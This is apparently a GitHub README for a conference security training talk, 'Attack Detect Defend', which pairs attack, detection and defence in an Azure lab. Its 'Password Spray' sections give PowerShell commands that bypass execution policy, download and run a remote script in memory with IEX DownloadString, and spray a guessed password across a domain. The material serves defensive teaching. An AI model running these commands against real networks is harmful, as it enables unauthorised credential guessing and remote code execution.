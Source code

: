 # Nebraska Cyber Security Conference 2024 - Talk Slides &; Content

## Attack Detect Defend - Jordan Drysdale & Kent Ickler

This-two part talk is a condensed sample from a 16hr training course Jordan and Kent teach, offered by AntiSyphonTraining.com.

In the two sessions we will give an overview into what we call threat optics: auditing endpoints, centralizing logs and visualizing results.

Each student will leave the class having experienced a penetration test through three distinct perspectives, each building on the previous. These will include adversarial attacks, examination of defensive postures, and wrapped up with various detection methodologies using open-source or free industry threat detection and defenses.




![Attack Detect Defend](Z-images/logo/add.png)
![DIV1]


# Course Pre-requisites
This talk discusses 
- GitHub Account 
- Azure Account 
- DOAZLab.com Azure Deployment
- Detailed Instructions: [ADD-Pre-Reqs](https://github.com/DefensiveOrigins/ADD-PreReqs/blob/main/README.md) 

# Course Information 
&#x1F6C8;  [H0001 - Course Information][H0001]  
&#x1F6C8;  [H0004 - Course Instructors][H0004]  




# Conferecne Talk Content    

## Attack Detect Defend - Part 1 (~09/17/24 9:00 AM)

### Slides
- Link to slides

### Password Spray

Launch a PowerShell session with no script validation checks. This will be our first run of the attack. 

``` powershell
powershell -ep bypass
```

Bring over the module to use for the attack.

``` powershell
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Summer2024!" -Force
```



### Password Spray

Launch a PowerShell session with no script validation checks. This will be our second iteration of the attack. 

``` powershell
powershell -ep bypass
```

Bring over the module to use for the attack. Re-run the attack. 

``` powershell
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Summer2024!" -Force
```


## Attack Detect Defend - Part 2 (~09/17/24 10:00 AM)

### Slides
- Link to slides

### Demo Commands

``` bash
commands
```


Copyright - All Rights Reserved, Defensive Origins LLC
<!-- DO-MD-FOOTER-END -->

<!-- DO-MD-SHORTCUTS-START -->
[Home]: ./README.md
[evidref]: 9-Others/Cheatsheets/EventIDs.md
[addlogo]:Z-images/logo/add.png
[addlogosm]:Z-images/logo/addsm.png
[addlogo]:../../Z-images/logo/add.png
[addlogosm]:../../Z-images/logo/addsm.png
[WWHF]: https://wildwesthackinfest.com/
[XXXX]: https://www.google.com
[ph_jd]: Z-images/photo/jd1.png
[ph_ki]: Z-images/photo/ki1.png
[H0004]: /9-Others/H0040-Instructors/README.md
[H0001]: /9-Others/H0001/README.md
[DOImage]: Z-images/do_darkbackground.jpg
[DOImage]:Z-images/do_darkbackground.jpg
[DefOrg]: https://defensiveorigins.com/
[Div1]: Z-images/div/div1.png
[Div2]: Z-images/div/div2.png
[DO]: https://www.defensiveorigins.com
[DO1]: Z-images/logo/DO1.png
[DO1sm]: Z-images/logo/DO1sm.png
[DOAboutUs]: https://defensiveorigins.com/about-us
[DOAZLab]: https://www.doazlab.com
[DOAZLab-Github]: https://github.com/DefensiveOrigins/DO-LAB
[1]: https://defensiveorigins.com/
[2]: https://wildwesthackinfest.com/training/
[APT]:https://github.com/DefensiveOrigins/AtomicPurpleTeam